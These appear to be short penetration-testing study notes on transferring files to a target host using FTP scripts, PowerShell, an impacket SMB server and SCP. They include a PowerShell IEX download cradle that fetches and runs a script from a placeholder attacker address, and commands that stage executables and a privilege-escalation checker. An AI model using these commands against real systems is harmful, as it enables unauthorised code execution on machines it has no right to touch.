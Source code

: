 # File Transfer

15 Ways to transfer a file
https://blog.netspi.com/15-ways-to-download-a-file/#perl

### FTP
/etc/init.d/pure-ftpd restart

Windows
echo "open <IP>">ftp.txt  
echo "offsec">>ftp.txt  
echo "offsec">>ftp.txt  
echo "bin">>ftp.txt  
echo "get file.exe">>ftp.txt  
echo "bye">>ftp.txt  

ftp -s ftp.txt  

Linux
ftp -4 -d -v ftp://offsec:offsec@<<\IP>//linuxprichecker.py < ftp upload one liner linux

### Powershell
powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"

powershell full path:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe


### Smbsever
impacket-smbserver <share name> <path>

net view \\\\\<ip>

### SCP
After login through ssh
scp <fileToUpload> user@remote:/path
